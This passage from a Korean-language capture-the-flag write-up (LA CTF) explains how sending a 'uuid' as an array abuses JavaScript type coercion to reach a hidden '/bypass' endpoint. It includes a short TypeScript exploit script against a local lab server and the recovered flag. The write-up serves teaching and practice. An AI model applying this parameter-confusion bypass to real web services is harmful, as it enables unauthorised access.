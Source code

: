 ```js {21, 34} title="queue.js"
  }
});
```

1. `/api/:uuid/status`: `served`가 `true`이면 `true`를 반환한다.
2. `/api/:uuid/bypass`: `served`를 `true`로 바꾼다.

그렇다면 어떻게 `/api/:uuid/bypass`에 요청할 수 있을까?

`uuid`를 문자열이 아닌 **배열**로 넘겨주면 된다.

예를 들어 `uuid`가 `['<uuid>/bypass#', '0', ...., '0']`와 같은 배열이라면 `http://<url>/api/<uuid>/bypass#,0,.....,0/status` 이런 형식의 URL로 바뀌게 된다.

:::warning
JavaScript에서는 자동적으로 형변환을 한다.

예를 들자면, `['a', 'b', 'c'].toString()`은 `'a,b,c'`가 된다.<br>
또한, `{ a: 'b' }.toString()`은 `'[object Object]'`가 된다.

만약에 이를 비교연산에 사용한다고 하면 다음과 같이 된다.

```js
console.log({ a: "b" } == "[object Object]"); // true
```

이는 `==` 연산자가 두 피연산자의 타입을 맞추기 위해 자동적으로 형변환을 하기 때문이다.<br>
따라서, 안전한 코드를 작성하기 위해서는 `===`를 사용하거나 **타입을 확인하는 코드**를 작성해야 한다.

:::

즉, 위와 같은 형식으로 보내면 `served`가 `true`로 바뀌게 되고 `flag`를 얻을 수 있다.

```typescript title="exploit.ts"
import { logger } from "@utils";
import { create } from "@web";

const r = create({
  baseURL: "http://localhost:3000",
  ignoreHttpErrors: true,
});

await r.post("/");

await r.post("/", {
  uuid: [`${r.getCookie("uuid")}/bypass#`, ..."1".repeat(35).split("")],
});

await r
  .post("/", {
    uuid: r.getCookie("uuid"),
  })
  .then((res) => logger.flag(res.data));
```

`lactf{Byp455in_7he_Qu3u3}`

## web/hptla (40 solves, 487 points)
